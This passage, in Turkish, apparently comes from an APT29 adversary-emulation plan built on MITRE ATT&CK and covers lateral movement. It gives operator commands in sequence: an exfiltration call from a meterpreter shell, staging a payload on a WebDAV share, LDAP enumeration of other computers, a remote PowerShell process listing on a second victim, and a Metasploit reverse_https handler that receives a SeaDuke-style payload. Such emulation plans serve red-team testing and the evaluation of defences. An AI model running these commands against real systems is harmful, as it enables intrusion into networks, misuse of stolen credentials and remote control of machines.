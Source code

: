 [meterpreter (PowerShell)\*] > `Invoke-Exfil`

### Adım 8: Yanal Hareket

Saldırgan, diğer bir sistemde ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/)) uzak bir PowerShell oturumu oluşturmadan önce domaindeki ([T1018](https://attack.mitre.org/techniques/T1018/)) diğer bilgisayarları numaralandırmak (enumerate) için Lightweight Directory Access Protocol (LDAP) sorgularını kullanır. Saldırgan bu bağlantı aracılığıyla çalışan process'leri sıralar ([T1057](https://attack.mitre.org/techniques/T1057/)). Ardından, saldırgan ikincil kurbana yeni bir UPX paketli payload ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.002](https://attack.mitre.org/techniques/T1027/002/)) yükler ([T1105](https://attack.mitre.org/techniques/T1105/)). Bu yeni payload, daha önce çalınan kimlik bilgileri ([T1078](https://attack.mitre.org/versions/v6/techniques/T1078/) / [T1078.002](https://attack.mitre.org/techniques/T1078/002)) kullanılarak PSExec yardımcı programı ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.002](https://attack.mitre.org/techniques/T1021/002/), [T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/)) aracılığıyla ikincil kurban üzerinde yürütülür.

**Prosedür:**

#### 8.1. Remote Services: Windows Remote Management ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/))

Payload WebDav paylaşımına:

[user@attacker]\# `cp attack-evals/apt29/day1/payloads/python.exe /var/www/webdav/`

[user@attacker]\# `cd /var/www/webdav`

[user@attacker]\# `chown -R www-data:www-data python.exe`

Meterpreter shell'ine dön:

[meterpreter (PowerShell)\*] > `Ad-Search Computer Name *`

[meterpreter (PowerShell)\*] >

```powershell
Invoke-Command -ComputerName <victim 2 IP> -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId
```

Adım 8.3. için Session ID'yi kaydet!

#### 8.2. Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Yeni bir Metasploit başlat ve Handler hazırla:

[bash] > `msfconsole`

[msf] > `handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https`

Hazırdaki Meterpreter oturumuna dön:

[meterpreter (PowerShell)\*] > `Invoke-SeaDukeStage -ComputerName <victim 2 IP>`
